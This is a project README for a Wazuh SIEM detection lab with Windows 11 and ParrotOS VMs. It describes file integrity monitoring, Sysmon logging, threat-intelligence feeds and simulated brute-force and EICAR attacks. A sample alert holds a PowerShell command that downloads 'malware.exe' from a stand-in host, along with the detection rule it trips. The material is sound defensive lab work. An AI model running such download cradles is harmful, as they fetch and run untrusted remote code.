

# Wazuh Threat Detection & CTI Lab

## Project Overview
This project demonstrates how to build a **Threat Detection & Monitoring Lab** using **Wazuh SIEM**, Windows 11 endpoint, and ParrotOS attacker machine.  
The goal is to simulate attacks, integrate threat intelligence, and detect malicious activity in real time.

---

## Lab Architecture
- **Wazuh Manager (OVA)** – running on VMware
- **Windows 11 VM (Agent Installed)** – monitored endpoint
- **ParrotOS VM (Attacker Machine)** – used for brute force & malware simulation
- **Host Machine** – running Wazuh Dashboard

 

---

## Use Cases Implemented

### 1. File Integrity Monitoring (FIM)
File Integrity Monitoring (FIM) is crucial for maintaining a system's security and integrity by detecting and recognizing unauthorized modifications to files. 


- Monitored `C:\Windows\System32\drivers\etc\hosts` on Windows 11

  Configuration:
  ```
  <directories recursion_level="0" check_all="yes" report_content="yes" realtime="yes">%WINDIR%\System32\drivers\etc</directories>
  
- Detected changes and generated alerts

  ```
  Sep 25, 2025 @ 10:31:00.991
  agent.name: windows
  File: 'c:\windows\system32\drivers\etc\hosts'
  syscheck.event: modified
  rule.id: 550
  rule.description: Integrity checksum changed
  rule.level: 7
  mitre

   

---

### 2. Sysmon + Wazuh Integration
Sysmon provides detailed system activity logging, while Wazuh processes and analyzes these logs for threat detection and incident response.
- Installed and configured **Sysmon** on Windows agent
- Forwarded process creation & PowerShell logs to Wazuh
- Created custom PowerShell Detection Rules
- Detected suspicious web download activity

```
Sep 26, 2025 @ 11:07:23.871
agent.name: windows
command: \"C:\\WINDOWS\\System32\\WindowsPowerShell\\v1.0\\powershell.exe\" -Command \"(New-Object Net.WebClient).DownloadString('http://example.com/malware.exe')\"
rule.description: "Suspicious PowerShell: Web download activity detected"
rule.id: 100004
rule.level: 12
mitre.technique: PowerShell(T1059.001), Ingress Tool Transfer(T1105), Web Protocols(T1071.001)
```
 

---

### 3. Threat Intelligence Integration
- Integrated **AlienVault OTX** with Wazuh
- Any connection to known malicious IP triggered alerts


---

### 4. Attack Simulation
- Used **Hydra** from ParrotOS to brute-force SSH login
- Wazuh generated **Brute Force Detection Alert**
- Tested with **EICAR test malware** for malware detection


---

## Repository Structure
```bash
wazuh-cti-lab/
│
├── docs/               # Screenshots & diagrams
├── wazuh-configs/      # Configurations & custom rules
└── reports/            # Final project report
